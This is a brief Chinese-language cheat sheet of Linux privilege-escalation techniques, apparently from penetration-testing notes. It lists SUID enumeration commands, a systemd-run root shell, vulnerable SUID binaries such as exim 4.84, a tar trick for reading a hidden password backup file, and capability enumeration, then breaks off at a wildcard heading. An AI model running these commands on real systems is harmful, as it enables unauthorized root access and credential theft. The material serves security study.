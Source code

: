 提权指南 : https://gtfobins.github.io/

查找SUID⽂件
```
find / -perm -u=s -type f 2>/dev/null
find / -perm -4000 -type f 2>/dev/null
```
### systemd-run

可利用项
```
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/pam_timestamp_check
```
利用方法
```
systemd-run -t /bin/bash

systemd-run 是 systemd 管理的一个命令行工具，用于运行作业或服务单元。在您提供的命令中，使用了 -t 选项，该选项实际上会创建一个临时的登录会话作业单元。-t 选项用于指定新作业单元的类型为 "tty"，这意味着它将建立一个伪终端（pseudo-terminal）作业单元。
```

### SUID可执⾏⽂件已知利⽤提权
```
/usr/sbin/exim-4.84-*
```
### SUID共享库注⼊提权
```
/usr/local/bin/suid-so
```
### SUID环境变量利⽤提权
```
/usr/local/bin/suid-env
```

> https://speakerdeck.com/knaps/escape-from-shellcatraz-breaking-out-of-restricted-unix-shells
> https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells
> https://null-byte.wonderhowto.com/how-to/use-misconfigured-suid-bit-escalate-privileges-get-root-0173929/

### tar提权

tar命令在解压时会默认指定参数--same-owner，即打包的时候是谁的，解压后就给谁；如果在解压时指定参数--no-same-owner（即tar --no-same-owner -zxvf xxxx.tar.gz），则会将执行该tar命令的用户作为解压后的文件目录的所有者。

```shell
tar zcPf 2.tgz /var/backups/.old_pass.bak

tar --no-same-owner -zxf 2.tgz ./
```

```
/sbin/getcap -r / 2>/dev/null
```
### tar通配符漏洞提权
